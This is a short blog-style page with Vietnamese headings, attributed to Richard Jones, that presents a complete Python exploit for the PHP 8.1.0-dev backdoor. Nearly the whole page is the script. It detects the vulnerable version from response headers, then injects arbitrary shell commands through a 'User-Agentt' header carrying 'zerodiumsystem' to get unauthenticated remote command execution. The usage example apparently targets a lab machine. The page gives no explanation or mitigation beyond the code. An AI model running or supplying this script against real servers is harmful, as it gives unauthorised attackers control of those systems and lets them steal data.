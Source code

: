 ```yaml
---
title: PHP 8.1.0-dev Backdoor Remote Command Injection Exploit 
date: 25/5/2021
layout: single

--- 
```

---
##  Tiêu đề: PHP 8.1.0-dev (backdoor) | Chèn lệnh từ xa (Chưa được xác thực)
##  Tác giả khai thác: Richard Jones
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


--- 

## Mã Kiểm Tra 


```python
#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls
 
#!/usr/bin/env python3
import requests
import argparse
 
from requests.models import parse_header_links 
 
s = requests.Session()
 
def checkTarget(args):
    r = s.get(args.url)    
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False
 
 
def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())
 
 
def main():
 
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()
 
    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)
     
if __name__ == "__main__":
    main()
```



